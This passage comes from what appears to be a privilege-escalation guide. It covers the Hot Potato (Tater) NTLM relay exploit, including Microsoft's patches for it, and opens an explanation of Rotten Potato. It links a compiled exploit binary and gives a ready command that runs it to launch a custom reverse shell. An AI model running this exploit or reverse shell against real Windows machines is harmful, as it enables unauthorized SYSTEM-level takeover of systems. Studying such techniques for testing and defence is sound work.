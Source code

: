 ### <mark style="color:orange;">Exploitation</mark>

The exploit can be found here:

{% embed url="https://github.com/Kevin-Robertson/Tater" %}

and here is the compiled binary exploit:

{% file src="../../../.gitbook/assets/potato.exe" %}

Run the exploit with your custom reverse shell:

```
potato.exe -ip 192.168.1.33 -cmd "C:\PrivEsc\reverse.exe" - enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```

Wait for a Windows Defender update, or trigger one manually.

Unfortunately, multiple problems have been found with service accounts, making them easier to escalate privileges with.

{% hint style="info" %}
Microsoft patched this (MS16-075) by disallowing same-protocol NTLM authentication using a challenge that is already in flight. What this means is that **SMB->SMB NTLM relay from one host back to itself will no longer work**. MS16-077 WPAD Name Resolution will not use NetBIOS (CVE-2016-3213) and does not send credential when requesting the PAC file(CVE-2016-3236). **WAPD MITM Attack is patched.**
{% endhint %}

## <mark style="color:red;">Rotten Potato</mark>



**Rotten Potato** is quite complex, but mainly it uses 3 things:

* **1.** _RPC_ that is running through _NT AUTHORITY/SYSTEM_ that is going to try to authenticate to our local proxy through the _CoGetInstanceFromIStorage_ API Call.
* **2.** _RPC_ in port 135 that is going to be used to reply all the request that the first _RPC_ is performing. It is going to act as a template.
* **3.** _AcceptSecurityContext_ API call to locally impersonate _NT AUTHORITY/SYSTEM_
